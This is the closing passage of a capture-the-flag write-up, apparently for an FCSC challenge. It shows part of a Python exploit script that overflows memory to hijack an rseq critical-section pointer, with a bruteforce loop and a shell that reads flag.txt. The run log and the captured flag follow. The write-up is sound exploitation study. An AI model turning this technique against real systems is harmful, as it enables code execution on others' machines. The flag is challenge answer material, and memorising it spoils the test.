 ```py

    # roughly overflow into tls
    payload2 = "+9999999999"*3943
    # close to our target, be more precise
    # push char = 2
    # push int = 5
    # push long = 11
    payload2 += f"+({0x12345678}"*4 # 4 ints (20)
    # 23 lower bit of rseq_cs here
    payload2 += f"+({(rseq_cs & 0x7fffff)<<8}" # int
    # rseq->flags also needs to be 0, use a push64 for that
    # 24 upper bit of rseq_cs here
    # 17 fixed bits -> 1/0x20000 bruteforce
    payload2 += f"+({0xaa00000000000000 | (rseq_cs >> 40)}" # long
    payload2 += ")"*4 + "))"
    interact(payload + payload2.encode())

    success("shell")
    sleep(3)
    sl(b"cat flag.txt")

    io.interactive()
    exit()

if not args.BF:
    launch()
    exploit()
    exit()
else:
    tries_prog = log.progress("Tries")
    while True:
        tries += 1
        tries_prog.status(str(tries))

        launch()
        try:
            exploit()
        except EOFError:
            pass

        with context.local(log_level=logging.ERROR):
            io.close()
```

```
$ python3 exploit.py REMOTE
[/] rerolls: 0x20e6                                                                             
[+] jit: 0x62b84868d000
[+] rseqcs: 0x62b84867c010
[+] shell
[*] Switching to interactive mode
Error: too much maths
Starting emergency procedure
FCSC{e661251be8d04d3296a861651828cd0c6578844e12b6e5c6dcaaf3bdd5c3ae95}
```


# Conclusion

I loved the challenge, it was really cool to discover and exploit rseq by myself. Huge thanks to the author.